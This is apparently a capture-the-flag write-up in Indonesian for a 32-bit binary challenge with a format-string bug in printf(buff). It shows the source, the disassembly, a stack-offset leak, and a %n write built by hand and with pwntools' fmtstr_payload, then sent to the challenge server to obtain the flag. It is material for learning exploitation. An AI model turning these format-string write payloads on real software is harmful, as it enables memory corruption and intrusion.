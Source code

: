 Pastikan kalian sudah absensi yaah :D

```bash
nc 103.157.96.13 7779
```

Download : https://mega.nz/#!hxAWGRaL!3jqKWlqhWy5cNySv3Y_1p4LloINBZuXKSkBl_0FP4ZE

```
chal15: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3c5e9d54084d4d470b802d93ace1ba7c3f782c65, not stripped
```

#### Source

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>

int target;

void flag() {
	char flag[64];
	FILE * f = fopen("flag", "r");
	if (f == NULL) {
		printf("File flag nya tidak ada! Kontak developer CTFR kami\n");
		exit(0);
	}
	fgets(flag, 64, f);
	printf("Here is your flag %s\n", flag);
}

void get() {
	char buff[256];
	fgets(buff, sizeof(buff), stdin);
	printf("Terima kasih sudah absensi ");
	printf(buff);
	printf("\n");
	if(target) {
		printf("Bagaimana anda bisa masuk kesini 1!1!1!...\n");
		flag();
	} else {
		// Do nothing
	}
}
int main() {
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	printf("-= Absensi CTFR =-\n");
	printf("Ketik nama anda untuk absensi: ");
	get();
}
```

kalo dilihat dari sourcenya ini format string vulnerablity, posisinya ada pada bagian `printf(buff);` yang ada di fungsi `get()`, dan disini diharuskan merubah variabe `target` agar bernilai true, jika dilihat dari bentuk disassamblenya

```bash
0x080486a9 <+99>:    add    esp,0x10
0x080486ac <+102>:   mov    eax,0x804a038
0x080486b2 <+108>:   mov    eax,DWORD PTR [eax]
0x080486b4 <+110>:   test   eax,eax
0x080486b6 <+112>:   je     0x80486cf <get+137>
```

nilai target dimasukan kedalam `eax` yang diambil dari alamat `0x804a038`, harus mencoba melakukan leak address `0x804a038` untuk bisa memodifikasinya

```bash
python2 -c "print 'AAAA'+ '\x38\xa0\x04\x08' + 'BBBB'+ '%x ' * 15 " | ./chal15
-= Absensi CTFR =-
Ketik nama anda untuk absensi: Terima kasih sudah absensi AAAA8BBBB100 f7fac580 8048655 41414141 804a038 42424242 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 
```

dengan pattern yang diberikan, inputan muncul pada posisi ke 4, ditandai dengan `AAAA` menjadi `41414141` dan dilanjutkan dengan alamat target `804a038` dilanjutkan dengan inputan `BBBB` menjadi `42424242` ini artinya alamat `target` berada di urutan `ke-4` didalam stack memory dengan alamat `0x0804a038` jadi bisa menulis ulang nilai target agar bernilai `true`

```bash
python2 -c "print 'AAAA'+ '\x38\xa0\x04\x08' + 'BBBB'+ '%x ' * 4 +'%n 0x1'" | ./chal15                                                                     
-= Absensi CTFR =-
Ketik nama anda untuk absensi: Terima kasih sudah absensi AAAA8BBBB100 f7fac580 8048655 41414141  0x1

Bagaimana anda bisa masuk kesini 1!1!1!...
File flag nya tidak ada! Kontak developer CTFR kami
``` 

atau jika menggunakan Pwntools 

```bash
python2 -c "from pwn import*; print(fmtstr_payload(4, {0x0804a038: 0x1}, 10))" | ./chal15
```

hasilnya akan sama saja, jika dicoba di remote appnya

```bash
python2 -c "from pwn import*; print(fmtstr_payload(4, {0x0804a038: 0x1}, 10))" | nc 103.157.96.13 7779
-= Absensi CTFR =-
Ketik nama anda untuk absensi: Terima kasih sudah absensi                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     �aa89�

Bagaimana anda bisa masuk kesini 1!1!1!...
Here is your flag CTFR{4n0th3r_51mpl3_f0rm4t_3xpl01t}
```

Flag 

```
CTFR{4n0th3r_51mpl3_f0rm4t_3xpl01t}
```